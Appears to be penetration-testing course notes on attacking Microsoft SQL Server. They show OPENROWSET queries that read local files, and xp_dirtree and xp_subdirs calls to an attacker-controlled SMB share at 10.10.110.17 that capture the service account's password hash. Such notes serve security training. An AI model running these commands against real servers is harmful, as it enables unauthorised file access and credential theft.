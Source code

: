 ## Read Local Files

by default, MSSQL allows file read on any file in the OS to which account has read access. 

How to read local files in MSSQL:

```cmd-session
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO

BulkColumn

-----------------------------------------------------------------------------
# Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to hostnames. Each
# entry should be kept on an individual line. The IP address should

(1 rows affected)
```


## Capture MSSQL Service Hash

We can steal MSSQL Service account hash using `xp_subdirs` or `xp_dirtree`. 

Above two uses SMB protocol to retrieve a list of child directories.

To make this happen, we first need Responder or impacket-smbserver set up and execute following SQL queries.

Using `xp_dirtree`:

```cmd-session
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO

subdirectory    depth
--------------- -----------
```

Using `xp_subdirs`:

```cmd-session
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO

HResult 0x55F6, Level 16, State 1
xp_subdirs could not access '\\10.10.110.17\share\*.*': FindFirstFile() returned error 5, 'Access is denied.'
```

If the service account has access to the server, attacker will obtain its hash. 
